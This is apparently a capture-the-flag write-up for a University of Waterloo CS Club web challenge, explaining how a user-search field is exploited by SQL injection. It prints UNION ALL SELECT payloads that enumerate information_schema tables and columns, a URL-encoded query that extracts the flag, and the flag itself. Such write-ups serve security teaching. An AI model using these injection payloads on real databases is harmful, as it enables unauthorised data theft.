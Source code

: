 # web / web2

> Points: 2357

## Question


> <https://ctf.csclub.uwaterloo.ca/web/3/>

## Solution

We are given an input field that allows us to query for users. On trying various inputs, we can see that it behaves like a SQL query which is of form `SELECT [some columns] FROM [some table] WHERE username LIKE '{user input}%'`.  
The query parameter is susceptible to a SQL Injection. After testing various inection payloads, we discover that we can exploit a 3-column UNION query for injection. Now we can use this to find out the table name and the column where the flag is stored.  
```
' UNION ALL SELECT NULL, table_name, NULL FROM information_schema.tables-- 

' UNION ALL SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_name='flag'-- 
```

With this information, we can finally get the flag.
```
https://ctf.csclub.uwaterloo.ca/web/3/?query=%27+UNION+ALL+SELECT+NULL%2C+flag%2C+NULL+FROM+flag--+
```


### Flag

`uwctf{f442df99a59d4e91}`